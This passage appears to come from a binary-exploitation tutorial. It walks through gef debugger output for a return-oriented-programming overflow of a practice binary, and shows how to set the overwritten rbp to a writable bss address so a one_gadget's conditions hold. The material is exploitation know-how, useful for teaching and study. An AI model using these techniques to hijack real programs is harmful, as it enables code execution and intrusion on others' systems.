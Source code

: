 Our register state when we hijack execution for the prior [[rop]] example is as follows:

```
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0
$rbx   : 0x00007ffdf2b8fbe8  →  0x00007ffdf2b91532  →  0x485300706f722f2e ("./rop"?)
$rcx   : 0x00007f34c8bfeac0  →  0x00000000fbad2088
$rdx   : 0x0
$rsp   : 0x00007ffdf2b8fad8  →  0x00007f34c8a28795  →  <iconv+00b5> pop rdi
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x0000000000c016b1  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rdi   : 0x00007f34c8c00900  →  0x0000000000000000
$rip   : 0x0000000000401229  →  <main+0073> ret
$r8    : 0x0000000000c01709  →  0x0000000000000000
$r9    : 0x0                                            
$r10   : 0x0                                            
$r11   : 0x246                                          
$r12   : 0x0                                            
$r13   : 0x00007ffdf2b8fbf8  →  0x00007ffdf2b91538  →  "SHELL=/bin/bash"
$r14   : 0x0000000000403e00  →  0x0000000000401180  →  <__do_global_dtors_aux+0000> endbr64 
$r15   : 0x00007f34c8d2f000  →  0x00007f34c8d302d0  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
```

Our registers as-are do not fulfill the `one_gadget` requirements, but we can easily make a tweak to fulfill the last case. Our overflow clobbers `rbp` as we see with the `A`s in the register state. All that we need is to set this register to an area of writable memory with a bunch of null bytes. If we had either a heap or stack leak, these would be viable options. But we have a no-PIE binary with a writable `bss` section, so let's pick an address in that range such that `[rbp-0x78]` is null.

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000001000 r-- rop
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x rop
0x0000000000402000 0x0000000000403000 0x0000000000001000 r-- rop
0x0000000000403000 0x0000000000404000 0x0000000000001000 r-- rop
0x0000000000404000 0x0000000000405000 0x0000000000001000 rw- rop < target this address range, e.g., 0x4040d8
```

Running again and breakpointing at the `ret`, we can double check that the conditions now hold:

```
gef➤  p/x $rbp
$1 = 0x4040d8
gef➤  p/x $rbp-0x50
$2 = 0x404088
gef➤  vmmap 0x404088
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000404000 0x0000000000405000 0x0000000000001000 rw- rop
gef➤  x/xg $rbp-0x78
0x404060:       0x0000000000000000
```
